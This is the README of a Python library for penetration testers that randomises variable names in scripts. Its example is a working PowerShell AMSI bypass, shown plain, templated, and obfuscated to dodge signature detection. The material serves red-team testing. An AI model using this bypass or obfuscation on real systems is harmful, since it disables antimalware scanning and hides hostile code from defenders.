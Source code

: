# libobfuscate

Repository containing a Python library that can be used to quickly obfuscate script-based language source code.

Associated technical blog post and details at [https://pentest.lambda-security.com/posts/source-code-obfuscation-library](https://pentest.lambda-security.com/posts/source-code-obfuscation-library)

## Installing

Installing is as simple as running the provided setup.py file:

```
$ git clone https://github.com/lambda-security/libobfuscate
$ cd libobfuscate
$ python3 setup.py install
```

Or in a virtual environment first:

```
$ git clone https://github.com/lambda-security/libobfuscate
$ cd libobfuscate
$ virtualenv -p python3 venv
$ . venv/bin/activate
$ python3 setup.py install
```

## Using the library

Using the library requires special placeholder values to be used in the source code. A special template-like statement `<%=obf ... %>` has to be used to indicate that a certain variable, function, class etc is to be obfuscated.

For example, with a simple PowerShell AMSI bypass in the form of:

```
$a = [Ref].Assembly.GetTypes()
Foreach($b in $a) {
    if ($b.Name -like "*iUtils") {
        $c=$b
    }
}
$d = $c.GetFields("NonPublic,Static")
Foreach($e in $d) {
    if ($e.Name -like "*Failed") {
        $f=$e
    }
}
$f.SetValue($null,$true)
```

A templatized version to be processed by libofuscate would look like:

```
$<%=obf a %> = [Ref].Assembly.GetTypes()
Foreach($<%=obf b %> in $<%=obf a %>) {
    if ($<%=obf b %>.Name -like "*iUtils") {
        $<%=obf c %> = $<%=obf b %>
    }
}
$<%=obf d %> = $<%=obf c %>.GetFields("NonPublic,Static")
Foreach($<%=obf e %> in $<%=obf d %>) {
    if ($<%=obf e %>.Name -like "*Failed") {
        $<%=obf f %>=$<%=obf e %>
    }
}
$<%=obf f %>.SetValue($null,$true)
```

Either from a Python interpreter or through a standalone script, the obfuscation library can be used as follows:

```
>>> import libobfuscate
>>> script = '''
... $<%=obf a %> = [Ref].Assembly.GetTypes()
... Foreach($<%=obf b %> in $<%=obf a %>) {
...     if ($<%=obf b %>.Name -like "*iUtils") {
...         $<%=obf c %> = $<%=obf b %>
...     }
... }
... $<%=obf d %> = $<%=obf c %>.GetFields("NonPublic,Static")
... Foreach($<%=obf e %> in $<%=obf d %>) {
...     if ($<%=obf e %>.Name -like "*Failed") {
...         $<%=obf f %>=$<%=obf e %>
...     }
... }
... $<%=obf f %>.SetValue($null,$true)
... '''
>>> obfuscated = libobfuscate.obfuscate(script, ['?l', '?u'], 8, 16)
>>> print(obfuscated)

$gBXbOLMYI = [Ref].Assembly.GetTypes()
Foreach($LlhKsKlJSL in $gBXbOLMYI) {
    if ($LlhKsKlJSL.Name -like "*iUtils") {
        $OMmZARTbcPQI = $LlhKsKlJSL
    }
}
$kRUHbfJjN = $OMmZARTbcPQI.GetFields("NonPublic,Static")
Foreach($zyPxRCAzFIfWUIk in $kRUHbfJjN) {
    if ($zyPxRCAzFIfWUIk.Name -like "*Failed") {
        $dsDToOCJUWoNF=$zyPxRCAzFIfWUIk
    }
}
$dsDToOCJUWoNF.SetValue($null,$true)

```

The function call takes in 3 parameters to customize the obfuscation process, with the function prototype being `obfuscate(s, chars, min_length, max_length)`:

```
obfuscate(s, chars, min_length, max_length)
    Obfuscates placeholders in the input string with random strings.

    Parameters:
    s (str):             The input string containing placeholders.
    chars (list of str): List of character sets to use ('?u' for uppercase, '?l' for lowercase, '?d' for digits).
    min_length (int):    Minimum length of the generated random string.
    max_length (int):    Maximum length of the generated random string.

    Returns:
    str: The input string with placeholders replaced by random strings.

    Example:
    >>> obfuscate('<%=obf placeholder %>', ['?u', '?l'], 5, 10)
    'AbcDeFgHiJ'
```

The `chars` parameter must be a list of hashcat-type mask characters and the library supports:

- `?l` for lowercase
- `?u` for uppercase
- `?d` for digits

Any of them must be supplied, with a minimum requirement that only `?d` is unsupported due to the fact that variables, functions, classes etc do not typically start with a digit.

If the `chars` parameter contains `?d` and/or `?l`, `?u`, the library will ensure the obfuscated string will **not** begin with a digit. This is to eliminate the possibility of invalid source code identifiers that begin with a number, if the language does not support it.

The `min_length` and `max_length` parameters indicate the obfuscated string length of any of the inputs; the value in the range of `min_length` and `max_length` is not static for the entire obfuscation processes, instead it is randomly selected for each individual variable indicated by `<%=obf ... %>`. Internally, the library constructs a dictionary with each value to be obfuscated and for each one it is replaced with a randomly generated one, ensuring consistency in code references.

